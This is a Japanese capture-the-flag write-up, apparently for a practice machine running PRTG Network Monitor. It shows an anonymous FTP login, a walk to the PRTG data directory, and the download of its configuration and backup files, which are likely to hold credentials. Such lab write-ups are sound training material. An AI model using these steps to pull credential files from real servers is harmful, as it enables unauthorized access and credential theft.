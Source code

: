 ## PRTGの本体ファイルを探す
[How and where does PRTG store its data?](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)
この公式ページとにらめっこしながら探していきます。

```
kali@kali:~$ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> cd /Users/All Users/Paessler/PRTG Network Monitor
550 The system cannot find the file specified. 
ftp> cd "Users/All Users/Paessler/PRTG Network Monitor"
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-22-20  07:46AM       <DIR>          Configuration Auto-Backups
02-22-20  07:00PM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)
02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
02-22-20  07:05AM       <DIR>          Logs (Web Server)
02-22-20  07:03PM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
02-22-20  10:27PM              1720806 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
226 Transfer complete.
```

最終的に見つけたのは
`Users/All Users/Paessler/PRTG Network Monitor`
です。

## configファイルを落とす
configuration と書いてあるファイルを落とします。

```
ftp> get "PRTG Configuration.old"
local: PRTG Configuration.old remote: PRTG Configuration.old
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 16.20 secs (71.7122 kB/s)
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 14.99 secs (75.1872 kB/s)
ftp> get "PRTG Configuration.dat"
local: PRTG Configuration.dat remote: PRTG Configuration.dat
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```